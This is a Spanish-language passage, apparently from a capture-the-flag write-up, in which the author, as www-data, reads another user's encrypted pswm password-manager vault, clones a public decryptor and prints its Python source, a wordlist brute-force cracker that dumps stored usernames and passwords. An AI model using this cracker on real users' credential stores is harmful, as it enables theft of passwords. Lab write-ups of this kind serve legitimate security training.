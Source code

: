 ```bash
www-data@down:/home/aleks$ cat .local/share/pswm/pswm;echo
e9laWoKiJ0OdwK05b3hG7xMD+uIBBwl/v01lBRD+pntORa6Z/Xu/TdN3aG/ksAA0Sz55/kLggw==*xHnWpIqBWc25rrHFGPzyTg==*4Nt/05WUbySGyvDgSlpoUw==*u65Jfe0ml9BFaKEviDCHBQ==
```

Lo cual parece ser el contenido encriptado, vamos a copiar el contenido en un archivo local.

Una vez copiado, una búsqueda rápida en internet y encontramos la herramienta **pswm-decryptor** de **serionctf** en github, clonaremos el repositorio e instalaremos lo necesario para poder usar la herramienta:

```bash
$ git clone https://github.com/seriotonctf/pswm-decryptor.git
```

Instalamos los módulos necesarios para ejecutar la herramienta:

```bash
$ pip3 install cryptocode prettytable
```

Podemos usar la opción **-h** para ver el panel de ayuda y qué parámetros debemos de poner para la ejecución, no obstante, en el repositorio de github podemos verlo también, siguiendo la forma en la que nos indica que se ejecuta, lo probamos:

```bash
$ cat pswm-decrypt.py
import cryptocode
import argparse
from prettytable import PrettyTable

class CustomHelpFormatter(argparse.HelpFormatter):
    def __init__(self, prog):
        super().__init__(prog, max_help_position=50)

def bf(encrypted_text, wordlist):
    with open(wordlist, "r", encoding="utf-8") as f:
        for password in f:
            decrypted_text = cryptocode.decrypt(encrypted_text, password.strip())
            if decrypted_text:
                print("[+] Master Password: %s" % password.strip())
                print_decrypted_text(decrypted_text)
                return
    print("[-] Password Not Found!")

def print_decrypted_text(decrypted_text):
    table = PrettyTable()
    table.field_names = ["Alias", "Username", "Password"]
    for line in decrypted_text.splitlines():
        alias, username, password = line.split("\t")
        table.add_row([alias.strip(), username.strip(), password.strip()])
    table.align = "l"
    print("[+] Decrypted Data:")
    print(table)

def main():
    parser = argparse.ArgumentParser(description="pswm master password cracker", formatter_class=CustomHelpFormatter)
    parser.add_argument("-f", "--file", required=True, help="Path to the encrypted file")
    parser.add_argument("-w", "--wordlist", required=True, help="Path to the wordlist file")
    args = parser.parse_args()

    with open(args.file, "r") as f:
        encrypted_text = f.read().strip()
    
    bf(encrypted_text, args.wordlist)

```